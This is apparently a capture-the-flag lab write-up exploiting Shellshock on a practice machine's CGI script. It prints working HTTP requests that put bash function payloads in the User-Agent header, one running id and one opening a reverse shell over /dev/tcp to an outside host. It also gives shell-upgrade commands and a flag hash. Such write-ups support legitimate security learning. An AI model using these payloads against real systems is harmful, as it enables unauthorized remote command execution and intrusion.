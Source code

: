 ## Shellshock

```
GET /cgi-bin/user.sh HTTP/1.1
Host: 10.10.10.56
User-Agent: () { :;}; echo; /usr/bin/id
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

* User-Agent field is a common string to store as an environmental variable
* we can input `() { :;}; echo; /usr/bin/id` under User-Agent and we get back a response
* note that we add in an echo command before using the full path of id to execute the command
	* echo adds a new line which is needed to differentiate between the headers and the body
	* we have to use the full path because a profile has not been set so there is no $PATH 
```
HTTP/1.1 200 OK
Date: Tue, 19 Apr 2022 02:13:39 GMT
Server: Apache/2.4.18 (Ubuntu)
Connection: close
Content-Type: text/x-sh
Content-Length: 129

uid=1000(shelly) gid=1000(shelly) groups=1000(shelly),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
```

* let's try to get a reverse shell from this

```
GET /cgi-bin/user.sh HTTP/1.1
Host: 10.10.10.56
User-Agent: () { :;}; echo; /bin/bash -c 'bash >& /dev/tcp/10.10.16.8/9000 0>&1'
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

* `bash -c` loads a profile which then populates the PATH env variable which allows us to just call `bash -i` instead of `/bin/bash -i`
* we get a shell but it's simple, let's upgrade it
* user.txt - `2ec24e11320026d1e70ff3e16695b233`

## Upgrade to Interactive Shell

* python3 is installed so let's use this to upgrade our shell
* `python3 -c 'import pty; pty.spawn("/bin/bash")'`
* `ctrl + z`
* `stty raw -echo; fg`
* `reset`
```
[2]  - continued  nc -nlvp 9000
                               reset
reset: unknown terminal type unknown
Terminal type? xterm
```


